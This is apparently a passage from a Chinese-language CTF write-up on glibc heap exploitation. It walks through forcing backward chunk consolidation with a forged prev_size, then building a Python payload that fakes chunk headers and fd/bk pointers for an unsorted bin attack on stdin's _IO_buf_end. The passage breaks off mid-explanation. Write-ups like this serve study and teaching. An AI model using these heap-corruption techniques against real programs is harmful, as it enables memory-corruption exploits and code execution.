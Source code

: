 此时，我们再次释放chunk1，然后释放chunk2，即可以触发前向合并。

	Delete(1)
	Delete(2)
这里有一点需要注意，根据libc源代码，当触发chunk前向合并需重新计算合并后chunk大小时，不是使用待合并的两个chunk的size字段的和，而是利用如下公式进行计算：

	/* consolidate backward */
    if (!prev_inuse(p)) {
      prevsize = prev_size (p);
      size += prevsize;		//关键代码
      p = chunk_at_offset(p, -((long) prevsize));
      unlink(av, p, bck, fwd);
    }
也就是说计算前向合并时比较特殊，是使用当前chunk的size字段与当前chunk的presize字段相加直接计算。  

因此当我们free(1)，free(2)后就能够得到一个size = 0x520 大小的chunk
	
	计算公式：
	size = chunk2->size + chunk2->presize = 0x110 + 0x410 = 0x520
而不是size = 0x1a0 大小的chunk。

	计算公式：
	size = chunk2->size + chunk1->size = 0x110 + 0x90 = 0x1a0
此时我们再次释放chunk5，保证unsortedbin中有两个chunk（chunk1+chunk2 size=0x520，chunk2 size = 0x210），且chunk1与chunk2合并后的大chunk包含了chunk5。

	Delete(5)
然后再次调用Alloc(0x518)，将chunk1+chunk2申请回来，并伪造chunk2的fd，bk字段，用于之后触发unsortedbin attack。

	stdin = libc.symbols['_IO_2_1_stdin_']
	lg('stdin',stdin)
	Alloc(0x518)
	payload = 'a'*0x80
	payload += p64(0) + p64(0x91)
	payload += 'b'*0x80
	payload += p64(0) + p64(0x211)
	payload += p64(0) + p64(stdin + 0x30)
	Fill(payload)
这里需要注意的一点是，在官方的writeup中并没有去改写\_IO\_list\_all这样常规house of orange的做法，而是去改写了stdin+0x40地址处的内容，为什么要这么做呢？

实际通过调试可以发现，stdin+0x40地址处指向了标准输入的\_IO\_buf\_end。在正常情况下，由于程序调用了setvbuf(stdin,0,2,0)，也就是将stdin设置成了无缓冲IO流

	#define _IOFBF 0 /* Fully buffered. */
	#define _IOLBF 1 /* Line buffered. */
	#define _IONBF 2 /* No buffering. */
此时\_IO\_buf\_end = \_IO\_buf\_base + 1 = \_IO\_FILE->\_shortbuf + 1，即每输入一个字节后就将输入内容写入真正的目的地址。那么，如果我们能够改写\_IO\_buf\_end使其远大于\_IO\_buf\_base，就可以不断在缓冲区buf中写入内容直至输入指针等于\_IO\_buf\_end。  

unsortedbin attack before：  